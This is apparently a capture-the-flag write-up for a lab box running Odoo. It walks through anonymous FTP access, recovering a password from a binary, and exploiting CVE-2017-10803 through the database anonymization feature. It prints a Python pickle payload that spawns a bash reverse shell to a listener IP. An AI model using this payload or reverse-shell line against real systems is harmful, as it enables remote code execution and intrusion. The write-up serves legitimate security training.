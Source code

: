 ## FTP

We have anonymous login enabled with ftp and there is a "pub" directory. Logging in with user `ftp` and no password, we download
both files, "notice.txt" and "password".

Contents of "notice.txt":

```bash
From antisoft.thm security,

A number of people have been forgetting their passwords so we've made a temporary password application.
```

So, we get an org name and a "password" binary. Some basic reversing like running `strings password` gives us an employee id,
which can be used to get the password `SecurePassword123!` (note: the plaintext password can also be retrieved directly)

## SSH

If we try to login with ssh, we get `Permission denied (publickey).` which means password authentication has been disabled.

## Web

We skip our usual gobuster/ffuf by reading the room's info saying:
"No brute-forcing is needed at any point in this box."

## Login

Navigating to the web app, we see [Odoo](https://www.odoo.com/) installed. Now, we can either login with our found password and
using `admin@antisoft.thm` which is simpler but needs some guess work, or by going to "manage database" and creating a new one with our
master password.
![odoo](https://i.imgur.com/bCCn7NI.png)

## Exploitation

Searching for exploits on odoo that can give us remote code exceution, we find "CVE-2017-10803" which matches the installed odoo version. Following along with the exploit description, we search and install "Database anonymization" (uncheck the `Apps`).
We anonymize the database and prepare our own payload file with the code below:

```python
import cPickle
import os

class Exploit(object):
   def __reduce__(self):
      return (os.system, (("bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'"),))

with open("exploit.pickle", "wb") as f:
   cPickle.dump(Exploit(), f, cPickle.HIGHEST_PROTOCOL)
```
